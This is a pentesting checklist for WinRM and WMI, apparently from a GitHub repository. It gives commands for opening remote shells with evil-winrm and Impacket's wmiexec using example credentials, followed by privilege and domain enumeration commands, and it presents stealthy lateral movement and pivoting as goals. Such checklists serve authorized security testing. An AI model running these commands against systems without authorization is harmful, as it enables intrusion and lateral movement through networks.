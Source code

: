# 🎯 WinRM & WMI Pentesting Checklist & Commands

## What am I realistically expecting to find here?

⭐ After enumerating WinRM and WMI services, I realistically expect to:

- [ ] Remotely execute commands using valid credentials
- [ ] Establish an interactive shell via WinRM
- [ ] Abusing WMI for stealthy command execution or lateral movement
- [ ] Use these services for pivoting across the network
- [ ] Enumerate system info, users, and running processes remotely
- [ ] Potentially upload/download files through these sessions

---

# ✅ WinRM & WMI - Authenticated Enumeration & Exploitation

## 🛠 Remote Shell via WinRM

```bash
evil-winrm -i 10.10.10.1 -u john -p password123
```

- Interactive PowerShell-like shell over WinRM
- Supports upload/download/invoke module

---

## 🧠 Remote Execution via WMI (Python / Impacket)

```bash
python3 wmiexec.py test.local/john:password123@10.10.10.1
```

- Executes commands remotely using WMI
- Output shown directly after execution
- Can be used as a stealthy alternative to SMB/WinRM

---

## 🔍 Notes

- These techniques require **valid credentials**
- Common ports:
  - WinRM (HTTP): 5985
  - WinRM (HTTPS): 5986
- Ensure target has WinRM service running and open

---

## ✅ Privilege Verification After Access

```powershell
whoami /all
whoami /priv
net user john
net localgroup administrators
```

---

## ✅ Useful Post-Access Commands

```powershell
systeminfo
tasklist
netstat -ano
ipconfig /all
net view /domain
net group /domain
```

---

## 🔄 Optional: Use `proxychains` with socks proxy if pivoting from Linux

